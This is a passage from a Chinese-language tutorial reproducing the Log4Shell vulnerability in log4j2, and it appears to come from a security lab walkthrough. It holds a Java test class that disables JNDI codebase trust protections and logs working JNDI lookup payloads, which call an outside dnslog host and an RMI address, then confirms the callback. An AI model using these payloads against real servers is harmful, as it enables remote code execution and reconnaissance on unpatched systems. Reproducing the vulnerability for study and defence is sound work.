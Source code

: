 ```yaml
<!-- 日志保留策略，配置只保留七天 -->
<DefaultRolloverStrategy>
<Delete basePath="${logDir}/" maxDepth="1">
<IfFileName glob="dust-server_*.log" />
<IfLastModified age="7d" />
</Delete>
</DefaultRolloverStrategy>
</RollingFile>
</Appenders>
</Configuration>



```



### 2.新建Log4Test类：

这里模拟站点会记录用户登陆日志，实际上大部分网站确实会做相关功能

```java
package cn.xps.www;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Test {
    private static final Logger logger = LogManager.getLogger(Log4Test.class);

    public static void main(String[] args) {
        // 避免因为Java版本过高而无法触发此漏洞
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");

//        String username = "${jndi:rmi://192.168.43.161:8888/exp}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        String username = "${jndi:ldap://4fduwz.dnslog.cn}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        logger.error(username + "is login on ${java:os}");
    }

}

```



### 3.打开dnslog，发现成功获取ip

![](http://image.xpshuai.cn/log4_dnslog.png)




